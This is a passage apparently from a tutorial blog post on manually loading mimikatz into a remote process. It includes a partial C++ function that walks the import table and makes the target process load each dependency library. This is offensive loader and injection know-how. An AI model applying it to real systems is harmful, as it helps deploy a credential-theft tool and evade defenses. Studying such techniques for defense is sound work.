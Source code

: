 As observed, we can resolve mimikatz IAT. Now we can apply our function `remoteLoadLibrary` in the function to make our remote process load our dependancies.

{% highlight C++ %}
BOOL loadImportTableLibs(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, DWORD offsetRdata)
{
    ...

    while (importDescriptor->Name != NULL)
    {
        libName = (LPSTR)(importDescriptor->Name + (DWORD_PTR)pImage - offsetRdata);

        _dbg("[*] library to load: %s\r\n", libName);

        if (!remoteLoadLibrary(pi->hProcess, libName))
            return FALSE;

        importDescriptor++;
    }
    return TRUE;
}
{% endhighlight %}

Now let's check if our process has successfuly loaded `mimikatz` dependencies.
![Mimikatz dependancies loaded](assets/img/posts/20240124/loadDependancies.png)
